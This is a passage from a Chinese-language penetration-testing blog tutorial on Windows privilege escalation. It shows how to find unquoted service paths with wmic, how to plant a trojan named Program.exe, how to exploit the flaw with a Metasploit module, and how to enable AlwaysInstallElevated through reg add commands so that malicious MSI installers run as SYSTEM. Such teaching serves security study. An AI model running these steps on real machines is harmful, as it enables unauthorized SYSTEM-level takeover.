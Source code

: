 因此是不是说我们把木马程序命名为 Program.exe ，然后放到 C 盘下，当上面的 TeamsSix.exe 程序重启时，系统就会执行我们的木马程序？

答案是的。

同时如果此时程序以 SYSTEM 运行，那我们就将获得一个 SYSTEM 权限的会话。

铺垫了那么多，现在就来复现一下。

## 复现

我们可以通过下面的命令来查找系统中存在可信任服务路径的程序。

```
wmic service get name,displayname,pathname,startmode|findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr/i /v """
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210727144557.png)

截图中可以看到 C:\Program Files\OpenSSH\bin\cygrunsrv.exe 存在包含空格且没有引号的路径。

我们可以直接使用 MSF 利用该漏洞，MSF 版本中利用该漏洞的模块是 trusted_service_path，但是在新版本中该模块的名称已经变更为 unquoted_service_path

```
use windows/local/unquoted_service_path
set session 1
run
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210727153924.png)

可以看到已经获取到了管理员组账户的权限。

# 0x02 注册表键 AlwaysInstallElevated

## 介绍

注册表 AlwaysInstallElevated 是一个策略设置项。Windows 允许低权限用户以 SYSTEM 权限运行安装文件。

如果启用此策略设置项，那么任何权限的用户都能以 SYSTEM 权限来安装恶意的 MSI（Microsoft Windows Installer）文件。

产生该漏洞的原因是由于用户在策略编辑器中开启了 Windows Installer 特权安装功能。

```
组策略——计算机配置——管理模板——Windows组件——Windows Installer——永远以高特权进行安装：选择启用。
组策略——用户配置——管理模板——Windows组件——Windows Installer——永远以高特权进行安装：选择启用。
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210727162552.png)

也可以直接使用命令行开启这两项注册表。

```
reg add HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
```
